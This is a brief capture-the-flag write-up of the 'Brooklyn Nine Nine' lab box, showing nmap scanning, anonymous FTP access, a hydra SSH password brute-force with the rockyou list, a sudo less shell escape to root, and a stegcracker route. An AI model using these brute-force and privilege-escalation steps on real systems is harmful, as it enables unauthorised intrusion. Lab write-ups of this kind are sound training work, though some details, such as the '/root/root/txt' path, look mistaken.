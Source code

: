 # Brooklyn Nine Nine

> thegurpreet | Mar 2021

##Enumeration

Setting ip variable
```
export ip=10.10.76.13
```

Scanning ports using nmap. Found FTP, SSH and HTTP port open

```
sudo nmap -sV -sC $ip
```

##First way to access of box

As per NMAP result above user is ftp and anonymous login is allowed
```
ftp $ip
```

Check available files and download locally to review them
```
dir
get note_to_jake.txt
```

To bruteforce weak password, lets use hydra
```
hydra -l jake -P /usr/share/wordlists/rockyou.txt $ip -t 4 ssh
```

Login with given credentials
```
ssh jake@$ip
```

Check available sudo commands
```
sudo -l
```

Capture user flag
```
less /home/holt/user.txt
```

### Privilege Escalation

Check information about sudo tar on gtfobins
```
sudo less /etc/profile
!/bin/sh
```

Root access!!




##Second way to access of box

Crack passphrase using stegcracker
```
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```

Login with given creds
```
ssh jake@$ip
```

Capture user flag


### Privilege Escalation

Check available sudo commands
```
sudo -l
```

Use sudo to read Root flag
```
sudo nano /root/root/txt
```

Root access!!

